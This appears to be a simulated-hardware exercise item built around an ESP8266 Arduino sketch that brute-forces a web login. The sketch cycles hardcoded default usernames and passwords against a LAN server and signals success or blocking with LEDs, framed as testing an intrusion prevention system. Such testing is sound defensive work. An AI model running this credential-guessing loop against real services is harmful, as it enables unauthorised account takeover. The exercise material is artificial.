
The sketch below on a simulated ESP8266 (Wemos D1 mini). Shown: output pins drawn as LEDs (lit = HIGH). Dashed ring = blinking. WiFi joins after 1.5 s; servers stay silent unless stated; uploads are accepted with an empty reply; what the sketch prints to the serial monitor is not drawn.

Above: at 1.85 s.
Timing chart, 0 to 5.0 s (numbered marks = the images above):


Measured:
- by itself, D6 (WHITE_LED): alternates HIGH for 0.30 s and LOW for 1.2 s

The sketch:

esp8266_attacker.ino
```cpp
/*
 * ESP8266 Real-time Attacker for IDPS Testing
 *
 * This hardware-based attack simulator performs brute force attacks
 * against the IDPS system using an ESP8266 microcontroller.
 *
 * Hardware Components:
 * - ESP8266 (NodeMCU/Wemos D1 Mini)
 * - Blue LED (Attack blocked indicator)
 * - White LED (Attack success indicator)
 * - 2x 220Ω resistors for LEDs
 *
 * LED Indicators:
 * - Blue LED ON: Attack blocked (HTTP 403)
 * - White LED ON: Attack successful (HTTP 200)
 * - Both LEDs ON: Unknown error
 * - Both LEDs OFF: Idle state
 */

#include <ESP8266WiFi.h>
#include <WiFiClient.h>
#include <ESP8266HTTPClient.h>

// WiFi Configuration
const char* ssid = "wifi";        // Replace with your WiFi SSID
const char* password = "password"; // Replace with your WiFi password

// Server Configuration
const char* server = "http://192.168.6.41:5000/login"; // Replace with your IDPS server IP

// LED Pin Configuration
#define BLUE_LED D5   // Blue LED for blocked attacks
#define WHITE_LED D6  // White LED for successful attacks

// Attack Credentials Arrays
String usernames[] = {"admin", "user", "test", "root", "guest"};
String passwords[] = {"123", "admin", "pass", "password", "test", "123456", "qwerty"};

void setup() {
  // Initialize Serial Communication
  Serial.begin(115200);
  Serial.println("\n=== ESP8266 IDPS Attacker Started ===");

  // Initialize LED pins
  pinMode(BLUE_LED, OUTPUT);
  pinMode(WHITE_LED, OUTPUT);

  // Turn off LEDs initially
  digitalWrite(BLUE_LED, LOW);
  digitalWrite(WHITE_LED, LOW);

  // Connect to WiFi
  Serial.printf("Connecting to WiFi: %s", ssid);
  WiFi.begin(ssid, password);

  while (WiFi.status() != WL_CONNECTED) {
    delay(500);
    Serial.print(".");
  }

  Serial.println("\n✅ Connected to WiFi!");
  Serial.printf("📍 Local IP: %s\n", WiFi.localIP().toString().c_str());
  Serial.printf("🎯 Target Server: %s\n", server);
  Serial.println("🚀 Starting attack simulation...\n");
}

void loop() {
  static int ui = 0; // Username index
  static int pi = 0; // Password index

  if (WiFi.status() == WL_CONNECTED) {
    WiFiClient client;
    HTTPClient http;

    if (http.begin(client, server)) {
      // Set HTTP headers
      http.addHeader("Content-Type", "application/x-www-form-urlencoded");
      http.addHeader("User-Agent", "ESP8266-Attacker/1.0");

      // Prepare POST data
      String postData = "username=" + usernames[ui] + "&password=" + passwords[pi];

      // Send HTTP POST request
      int httpCode = http.POST(postData);

      // Log the attack attempt
      Serial.printf("[ATTACK] %s:%s → HTTP %d",
                   usernames[ui].c_str(),
                   passwords[pi].c_str(),
                   httpCode);

      // Handle response and control LEDs
      if (httpCode == 200) {
        // Successful login
        digitalWrite(BLUE_LED, LOW);
        digitalWrite(WHITE_LED, HIGH);
        Serial.println(" ✅ SUCCESS");
      } else if (httpCode == 403) {
        // Attack blocked by IDPS
        digitalWrite(WHITE_LED, LOW);
        digitalWrite(BLUE_LED, HIGH);
        Serial.println(" 🚫 BLOCKED");
      } else if (httpCode == 401) {
        // Invalid credentials (normal response)
        digitalWrite(BLUE_LED, LOW);
        digitalWrite(WHITE_LED, LOW);
        Serial.println(" ❌ INVALID");
      } else {
        // Unknown error
        digitalWrite(BLUE_LED, HIGH);
        digitalWrite(WHITE_LED, HIGH);
        Serial.printf(" ⚠️ ERROR (%d)\n", httpCode);
      }

      // Brief LED indication
      delay(300);
      digitalWrite(BLUE_LED, LOW);
      digitalWrite(WHITE_LED, LOW);

      http.end();
    } else {
      Serial.println("[ERROR] HTTP connection failed!");
    }
  } else {
    Serial.println("[ERROR] WiFi disconnected! Reconnecting...");
    WiFi.begin(ssid, password);
    delay(5000);
    return;
  }

  // Move to next password
  pi++;
  if (pi >= sizeof(passwords) / sizeof(passwords[0])) {
    pi = 0;
    ui++;
    if (ui >= sizeof(usernames) / sizeof(usernames[0])) {
      ui = 0;
      Serial.println("🔄 Completed full cycle, restarting...");
    }
  }

  delay(1000); // Wait 1 second before next attack
}
```
